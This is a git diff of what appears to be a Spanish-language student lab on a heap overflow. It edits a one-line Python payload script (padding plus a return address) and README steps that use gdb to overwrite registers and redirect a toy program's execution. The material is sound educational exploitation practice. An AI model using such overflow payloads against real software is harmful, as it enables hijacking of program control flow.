

Completado

Changed region(s): [[0.0, 0.0759, 1.0, 0.481], [0.0, 0.481, 0.743, 0.6582], [0.0, 0.6835, 0.7121, 0.8861]]

diff --git a/Practica5/python4.py b/Practica5/python4.py
@@ -1,2 +1,2 @@
 #!/usr/bin/python
-print("X"*80 + "\x00\x40\x11\x56")
+print("X"*50 + "\x00\x40\x11\x56")

diff --git a/Practica5/README.md b/Practica5/README.md
@@ -35,9 +35,11 @@ Ahora, intentamos ver el estado del Heap:
 ``` 
 ![Step2-Commands](imgs/step2_gdb_XXXX.png "GDB XXXX")
 
-XXXX -> 0x58585858 -> 0x4052a0 dirección 
+XXXX -> 0x58585858 -> 0x4052a0 dirección en memoria
 
 ![Step2-Commands](imgs/step2_gdb_disas.png "GDB disassembly")
+
+Observamos $rbp: 0x0040116c -> 0x4052f0 dirección en memoria
 
 ## Paso 3
 Tratamos de analizar el comportamiento del sistema cuando hacemos uso del exploit de la localización en memoria. Para ello creamos un simple programa en python:
@@ -62,17 +64,20 @@ print("X"*70 + "YAYBYCYDYEYFYG")
 ```
 Procedemos a dar permisos de ejecución como anteriormente hicimos y debugeamos el programa:
 ```
-gdb -q ./heapOverflow.o    #-q para que no muestre el banner de bienvenida
-(gdb) run $(./python2.py)      #Corremos el programa con el exploit
-(gdb) info registers    #Mostramos los registros
-(gdb) q                 #Salimos del debugger
-(gdb) y                 #Para confirmar la salida de gdb
+gdb -q ./heapOverflow.o     #-q para que no muestre el banner de bienvenida
+(gdb) run $(./python2.py)   #Corremos el programa con el exploit
+(gdb) info registers        #Mostramos los registros
+(gdb) q                     #Salimos del debugger
+(gdb) y                     #Para confirmar la salida de gdb
 ```
 Observamos el valor de $rip: GYFY -> 0x47594659
 
 ![Step4-Commands](imgs/step4_gdb_python2.png "GDB registers")
 
 No obstante, este enfoque acabaría por pisar la memoria, por lo que no podremos ver el registro. Por eso es mejor realizar lo siguiente:
+
+![Step4-Commands](imgs/step4_diferencia_hex.png "GDB registers")
+
 ```python
 #!/usr/bin/python
 print("X"*80 + "CDEF")
@@ -90,7 +95,7 @@ Disassembling de la función f_entrar():
 De la foto anterior, podemos observamos que el registro $rbp (base pointer) apunta a la dirección 0x00401156. Por lo tanto, podemos realizar un exploit que nos permita modificar el valor de $rbp y así poder controlar el flujo de ejecución del programa. Para ello, creamos un nuevo exploit:
 ```python
 #!/usr/bin/python
-print("X"*80 + "\x00\x40\x11\x56")
+print("X"*50 + "\x00\x40\x11\x56")
 ```
 
 Y lo ejecutamos:
